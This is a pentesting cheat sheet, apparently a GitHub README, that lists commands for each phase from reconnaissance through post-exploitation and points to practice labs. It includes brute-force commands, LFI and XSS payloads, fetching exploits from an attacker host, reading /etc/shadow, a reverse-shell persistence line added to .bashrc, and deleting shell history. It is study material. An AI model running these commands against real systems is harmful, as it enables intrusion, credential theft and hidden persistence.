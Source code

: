 🛡️ Penetration Testing Workflow
A structured guide covering the complete penetration testing lifecycle: Reconnaissance, Enumeration, Exploitation, Privilege Escalation, and Post-Exploitation.

📍 PHASE 1: Reconnaissance (Know the Terrain)
🔍 Discover Live Hosts
bash
Copy
Edit
arp-scan -l
🧠 Identify Host OS
bash
Copy
Edit
nmap -O <IP>
🌐 DNS & WHOIS (for domains)
bash
Copy
Edit
dig example.com
whois example.com
nslookup example.com
Note: These tools work for domain names, not IP addresses.

⚙️ Active Recon (Port Scanning)
🔄 Full Port Scan
bash
Copy
Edit
nmap -p- -T4 <IP>
📡 Service Version Detection + Scripts
bash
Copy
Edit
nmap -sV -sC -O <IP>
💾 Save Scan Results
bash
Copy
Edit
nmap -sV -oA scan <IP>
📍 PHASE 2: Enumeration (Know the Weakness)
🌐 HTTP (Ports 80/8080/Other)
Manual Browsing:
http://<IP>

🔧 Tools
bash
Copy
Edit
whatweb http://<IP>
nikto -h http://<IP>
dirb http://<IP>
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt
🔎 Vulnerability Scanning
bash
Copy
Edit
wapiti http://<IP>
📁 FTP (Port 21)
Anonymous Access
bash
Copy
Edit
ftp <IP>
Enumeration
bash
Copy
Edit
nmap --script ftp-anon,ftp-bounce -p21 <IP>
Brute Force
bash
Copy
Edit
hydra -l user -P rockyou.txt ftp://<IP>
🔐 SSH (Port 22)
Version Detection
bash
Copy
Edit
nmap -sV -p22 <IP>
Brute Force
bash
Copy
Edit
hydra -l root -P rockyou.txt ssh://<IP>
Try default credentials: admin:admin, root:toor, etc.

📦 SMB (Port 445)
List Shares
bash
Copy
Edit
smbclient -L //<IP>
Access Share
bash
Copy
Edit
smbclient //<IP>/sharename
Enumeration Tools
bash
Copy
Edit
enum4linux-ng <IP>
nmap --script smb-enum-shares,smb-enum-users -p445 <IP>
🔄 Other Common Services
Service	Port	Command
MySQL	3306	mysql -u root -h <IP> -p
Telnet	23	telnet <IP>
RDP	3389	xfreerdp /u:USERNAME /p:PASSWORD /v:<IP>

📍 PHASE 3: Exploitation (Break the System)
If no vulnerable services are found, use what you’ve learned for future targets.

🌐 Web Exploits
SQL Injection
bash
Copy
Edit
sqlmap -u "http://<IP>/vuln.php?id=1" --dbs
File Upload / LFI / XSS
plaintext
Copy
Edit
XSS: <script>alert(1)</script>
LFI: http://<IP>/index.php?page=../../../../etc/passwd
🧨 Metasploit
bash
Copy
Edit
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <IP>
run
📚 Exploit DB / Searchsploit
bash
Copy
Edit
searchsploit <service_name> <version>
Download exploits to target:

bash
Copy
Edit
wget http://<ATTACKER_IP>/exploit.sh
📍 PHASE 4: Privilege Escalation (Become Root)
🔍 Linux Enumeration Scripts
bash
Copy
Edit
wget http://<IP>/linpeas.sh && bash linpeas.sh
# or
wget http://<IP>/LinEnum.sh && bash LinEnum.sh
🔍 Manual Checks
SUID binaries

Writable /etc/passwd

Cronjobs

Kernel vulnerabilities

Kernel Exploit Suggestion
bash
Copy
Edit
linux-exploit-suggester.sh
📍 PHASE 5: Post-Exploitation
🧾 Read Sensitive Data
bash
Copy
Edit
cat /home/*/.bash_history
cat /etc/shadow
🧬 Persistence
bash
Copy
Edit
echo 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1' >> ~/.bashrc
🧹 Cover Tracks
bash
Copy
Edit
history -c
rm ~/.bash_history
⚙️ Tools to Master
Category	Tools
Port Scanning	nmap, masscan
Web Analysis	nikto, dirb, gobuster, whatweb, sqlmap
Enumeration	enum4linux-ng, smbclient, ftp, hydra, ldapsearch
Exploitation	msfconsole, searchsploit, exploit-db, custom scripts
Privilege Escalation	linpeas.sh, LinEnum.sh, linux-exploit-suggester.sh
Post-Exploitation	netcat, socat, cronjobs, backdoors

🎯 Extra Practice Tasks
Set up a local vulnerable lab:

Vulhub

Metasploitable

TryHackMe

Hack The Box

Simulate Real-World Attacks:

MitM: ettercap

Sniffing: tcpdump, wireshark

Brute Force: RDP/SSH via hydra

Build Full Attack Chains using the MITRE ATT&CK framework.

💡 Practice consistently, document your learning, and build intuition with every test box